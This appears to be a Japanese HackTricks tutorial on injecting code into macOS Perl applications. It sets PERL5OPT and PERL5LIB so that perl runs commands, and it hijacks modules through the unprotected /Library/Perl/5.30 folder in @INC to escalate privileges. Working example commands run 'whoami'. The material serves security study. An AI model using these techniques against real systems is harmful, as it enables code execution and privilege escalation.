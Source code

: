# macOS Perl Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## `PERL5OPT` と `PERL5LIB` 環境変数を使用して

環境変数 PERL5OPT を使用すると、perl が任意のコマンドを実行することが可能です。\
例えば、このスクリプトを作成します：
```perl:test.pl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
今、**env変数をエクスポート**し、**perl**スクリプトを実行します:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
別のオプションは、Perlモジュールを作成することです（例：`/tmp/pmod.pm`）：
```perl:/tmp/pmod.pm
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
そして、env 変数を使用します：
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod
```
## 依存関係を介して

Perlが実行されている依存関係フォルダーの順序をリストすることが可能です:
```bash
perl -e 'print join("\n", @INC)'
```
次のような結果が返されます:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
返されたフォルダのいくつかは存在しませんが、**`/Library/Perl/5.30`** は **存在** し、**SIP** によって **保護されていません** し、**SIP** によって **保護された** フォルダの **前** にあります。したがって、誰かがそのフォルダを悪用してスクリプトの依存関係を追加し、高権限のPerlスクリプトがそれを読み込むことができます。

> [!WARNING]
> ただし、そのフォルダに書き込むには **root** である必要があり、現在ではこの **TCCプロンプト** が表示されます：

<figure><img src="../../../images/image (28).png" alt="" width="244"><figcaption></figcaption></figure>

例えば、スクリプトが **`use File::Basename;`** をインポートしている場合、`/Library/Perl/5.30/File/Basename.pm` を作成して任意のコードを実行させることが可能です。

## References

- [https://www.youtube.com/watch?v=zxZesAN-TEk](https://www.youtube.com/watch?v=zxZesAN-TEk)

{{#include ../../../banners/hacktricks-training.md}}
